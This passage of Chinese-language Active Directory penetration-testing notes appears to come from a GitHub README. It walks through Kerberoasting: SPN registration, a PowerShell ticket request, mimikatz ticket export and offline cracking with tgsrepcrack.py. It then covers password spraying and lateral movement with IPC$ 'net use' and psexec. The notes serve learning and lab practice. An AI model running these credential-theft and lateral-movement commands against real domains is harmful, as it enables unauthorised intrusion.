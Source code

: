 #### 实操

首先安装一个 `mssql` ，注册 spn 服务，`setspn -A MSSQLSvc/web.xxcom.local xxcom\web`，注意需要为本地管理员权限，否则会提示权限不足
![image](https://github.com/chriskaliX/AD-Pentest-Notes/raw/master/imgs/spn_reg.png)

先查询 SPN，上面已经介绍过，查询看到刚刚注册的 MSSQL
![image](https://github.com/chriskaliX/AD-Pentest-Notes/raw/master/imgs/spn_query.png)

运行Add-type时报错，其实为缺少依赖，为了节省时间直接换到DC上去操作

![image](https://github.com/chriskaliX/AD-Pentest-Notes/raw/master/imgs/spn_error.png)

```powershell
$SPNName="MSSQLSvc/web.xxcom.local"
Add-Type -AssemblyNAme System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $SPNName
```

![image](https://github.com/chriskaliX/AD-Pentest-Notes/raw/master/imgs/spn_klist.png)

在 `mimikatz` 中运行 `kerberos::list /export`

![image](https://github.com/chriskaliX/AD-Pentest-Notes/raw/master/imgs/klist_mimikatz.png)

之后跑的工具为 `tgsrepcrack.py` ，在[这里](https://github.com/nidem/kerberoast)下载就行

`python tgsrepcrack.py wordlist xxxxxx` 即可

### 密码喷射

蓝军文章是kerbrute，可以爆破用户，也可以密码喷射...工具下载ing，先看下面

## 0x06 横向移动

### 账号密码连接

#### IPC

> 从[这个博客](https://www.cnblogs.com/-mo-/p/11813608.html)搬运来一些东西，为了方便理解，仅供参考

IPC是共享”命名管道”的资源，它是为了让进程间通信而开放的命名管道，可以通过验证用户名和密码获得相应的权限,在远程管理计算机和查看计算机的共享资源时使用。利用`IPC$`,连接者甚至可以与目标主机建立一个连接，利用这个连接，连接者可以得到目标主机上的目录结构、用户列表等信息。利用条件：

1. 139,445端口开启
2. 管理员开启默认共享

`net use \\1.1.1.1\ipc$ "password" /user:username`
![image](https://github.com/chriskaliX/AD-Pentest-Notes/raw/master/imgs/ipc.png)

#### PSEXEC

> 20200729:今日有师傅了个问题，445横向的方法有哪些。发掘自己对与工具的理解还停留在表面，并未深入理解工具本身，特做补充和继续发掘

psexec是什么：详情看[百度百科](https://baike.baidu.com/item/psexec/9879597?fr=aladdin)，看完后我概括（搬运）一下。是一个轻型的telnet代替工具，可以在远程系统上执行程序，不过特征明显会报毒，同时会产生大量日志。msf下也有对应的模块，搜索关键字即可
命令为：`psexec \\target -accepteula -u username -p password cmd.exe`
